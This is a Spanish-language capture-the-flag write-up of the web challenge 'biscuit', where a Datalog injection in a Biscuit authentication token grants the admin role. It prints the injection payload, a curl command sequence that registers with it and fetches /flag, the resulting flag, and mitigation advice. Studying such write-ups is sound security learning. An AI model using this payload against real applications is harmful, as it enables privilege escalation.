


# biscuit — The Jaffa Cake Zone — Write-up

- **CTF:** gaslightCTF 2026
- **Reto:** `biscuit`
- **Categoría:** Web
- **Puntos:** 447
- **Solves:** 73
- **Autor:** sportshead
- **Adjunto:** `biscuit.tar.zst` (código fuente del servidor)
- **Relación con la materia:** A05 Injection (inyección sobre un lenguaje interpretado, análoga a SQLi) + Broken Access Control (escalada a rol `admin`)
- **Flag:** `gaslightCTF{d3f1nit3ly_a_cak3_f0r_l3g4l_r34s0n5_5ae0911644d7}`

---

## Descripción del reto

Una web retro estilo 1998 ("THE JAFFA CAKE ZONE") plantea la pregunta eterna:
¿es una torta o una galleta? Los usuarios registrados pueden votar. El objetivo
es llegar a `/flag`, que solo es accesible para un usuario con rol de
administrador (`webmaster`).



---

## Reconocimiento

Primeras observaciones desde la página inicial:

- El contador dice "5 netizens have joined the debate" pero el tally solo lista
  4 votantes (alice, bob, charlie y el usuario propio) → hay un usuario oculto
  que no aparece en la lista: el `webmaster`.
- El footer dice **"powered by biscuits"** con un emoji de galleta.

Al iniciar sesión y mirar las cookies en las DevTools, se ve que la sesión se
guarda en una cookie llamada precisamente **`biscuit`**, con un valor codificado
en base64:


Con el código fuente en mano (`app.py`, dentro de `biscuit.tar.zst`), se confirma
que **no hay base de datos**: los usuarios y votos son diccionarios en memoria.
Por eso cualquier intento de **SQL injection falla** — es una pista falsa
deliberada.

```python
USERS: dict[str, str] = {
    "alice": secrets.token_hex(16),
    "bob": secrets.token_hex(16),
    "charlie": secrets.token_hex(16),
    "webmaster": secrets.token_hex(16),
}
```

La pista real es literal: la autenticación usa **Biscuit tokens**
(`biscuit_auth`), un formato de token basado en Datalog firmado
criptográficamente. La cookie de sesión se llama, precisamente, `biscuit`.

---

## La vulnerabilidad

El endpoint `/flag` solo requiere que el token del usuario contenga el fact
`role("admin")`:

```python
def current_admin() -> str | None:
    return _authorize('allow if user($u), role("admin");')

@app.route("/flag")
def flag():
    if current_user() is None:
        return redirect(url_for("login"))
    if current_admin() is None:
        return render_template("flag.html"), 403
    return render_template("flag.html", flag=FLAG)
```

Ese fact normalmente solo se agrega si el usuario es `webmaster`. El problema
está en cómo se construye el token en `mint()`:

```python
def mint(username: str) -> str:
    builder = BiscuitBuilder(
        f"""
        user("{username}");
        check if user($u), $u.length() > 0;
        """,
    )
    if username == "webmaster":
        builder.add_fact(Fact('role("admin")'))
    return builder.build(root.private_key).to_base64()
```

El `username` se interpola **crudo** dentro del código Datalog del bloque
*authority* mediante un f-string. Esto es una **inyección de Datalog** (el
equivalente conceptual a una SQL injection, pero sobre el lenguaje de reglas de
Biscuit).

Como el bloque authority se firma con la clave privada root, cualquier fact que
se logre inyectar ahí queda como **confiable** para el autorizador. No hace falta
ser `webmaster`: alcanza con romper la cadena e inyectar `role("admin")` uno
mismo.

---

## Explotación

### El payload

```
q"); role("admin"); user("q
```

Al interpolarse en `mint()`, el bloque authority resultante queda:

```datalog
user("q"); role("admin"); user("q");
check if user($u), $u.length() > 0;
```

Es decir: tres facts válidos y bien balanceados, incluido el codiciado
`role("admin")`.

El payload además:

- Mide menos de 32 caracteres (pasa la validación `len(username) > 32`).
- No colisiona con usuarios existentes.
- No tiene espacios en los bordes (no lo afecta el `.strip()`).

### Pasos

1. Registrarse en `/signup` con ese username y cualquier contraseña.
2. El servidor responde seteando la cookie `biscuit` ya firmada, con el fact
   `role("admin")` inyectado.
3. Visitar `/flag` → pasa el check de admin → se muestra la flag.

### Comando

```cmd
curl -s -k -c jar.txt -X POST "https://TARGET/signup" -H "X-LLM-Agent: manual" --data-urlencode "username=q\"); role(\"admin\"); user(\"q" --data-urlencode "password=x" -o nul && curl -s -k -b jar.txt "https://TARGET/flag"
```


### Resultado

```html
<h2>~ WEBMASTER STAFF ROOM ~</h2>
<p>Welcome back, webmaster. The secret recipe:</p>
<p class="flag">gaslightCTF{d3f1nit3ly_a_cak3_f0r_l3g4l_r34s0n5_5ae0911644d7}</p>
```



---

## Flag

```
gaslightCTF{d3f1nit3ly_a_cak3_f0r_l3g4l_r34s0n5_5ae0911644d7}
```

---

## Lecciones aprendidas


- **Cualquier input de usuario que termine dentro de un lenguaje interpretado**
  (SQL, Datalog, LDAP, plantillas, etc.) debe parametrizarse o escaparse, nunca
  concatenarse con f-strings.
- **Firmar un token no garantiza nada** si el atacante puede inyectar facts
  maliciosos *antes* de la firma. La confianza criptográfica se aplicó sobre
  contenido controlado por el atacante.
- **Mitigación:** usar la API de facts parametrizados de Biscuit
  (`builder.add_fact(...)` con parámetros) en lugar de interpolar el username
  directamente en el string Datalog.
